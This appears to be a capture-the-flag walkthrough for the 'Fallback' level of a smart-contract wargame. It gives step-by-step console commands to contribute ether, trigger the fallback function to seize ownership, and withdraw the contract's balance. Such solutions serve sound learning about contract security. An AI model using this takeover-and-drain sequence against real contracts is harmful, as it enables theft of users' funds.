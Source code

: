 # Fallback

**HINT:** Look at the fallback function
<details>
<summary> Part 1</summary>
<p>

```js
toWei('0.0001')
```
You'll get:
```
"100000000000000" 
```
This will show us how much to send to the contract
</p>
</details>

<details>
<summary> Part 2</summary>
<p>

```js
contract.contribute.sendTransaction({ from:player, value:'100000000000000'  })
```
We first need to contribute to the contract before calling the fallback function
To see if our transaction goes through, you can ether click the <b>rinkeby.etherscan.io link</b> given or use: 
```js
Number(await contract.getContribution())
```
</p>
</details>

<details>
<summary> Part 3</summary>
<p>

```js
contract.sendTransaction({ from:player, value:'100000000000000'  })
```    
This will override the ownership and then give you the player ownership<br></br>
You can then see your the owner now with: 
```js
await contract.owner()
```
</p>
</details>

<details>
<summary> Part 4</summary>
<p>

```js
await contract.withdraw()
```
That's it now just submit and you WIN!!!
</p>
</details>
